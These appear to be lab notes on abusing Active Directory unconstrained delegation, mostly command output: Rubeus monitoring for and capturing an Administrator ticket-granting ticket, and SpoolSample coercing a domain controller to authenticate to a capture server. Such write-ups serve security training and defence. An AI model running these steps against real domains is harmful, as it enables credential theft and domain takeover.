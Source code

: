 

## Unconstrained Delegation


Unconstrained Delegation is an Active Directory feature that allows a service running under a user account
to impersonate other users and access resources on their behalf. This means tha the service can pass the 
user's credentials to other services without any restrictions, potentially exposing sensitive information
or allowing unauthorized acces to resources. Unconstrained delegation poses a significant security risk if not
properly configured.



### Samples:







```bash
PS C:\Tools> .\Rubeus.exe monitor /interval:5 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3

[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs


[*] 8/26/2024 7:59:17 AM UTC - Found new TGT:

  User                  :  Administrator@INLANEFREIGHT.AD
  StartTime             :  8/26/2024 2:59:00 AM
  EndTime               :  8/26/2024 12:58:59 PM
  RenewTill             :  9/2/2024 2:58:59 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :
```

In another cmd prompt

```bash
PS C:\Tools> .\SpoolSample.exe dc01.inlanefreight.ad dc02.dev.inlanefreight.ad
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\dc01.inlanefreight.ad, CaptureServer: \\dc02.dev.inlanefreight.ad
Attempted printer notification and received an invalid handle. The coerced authentication probably worked!
PS C:\Tools>
```
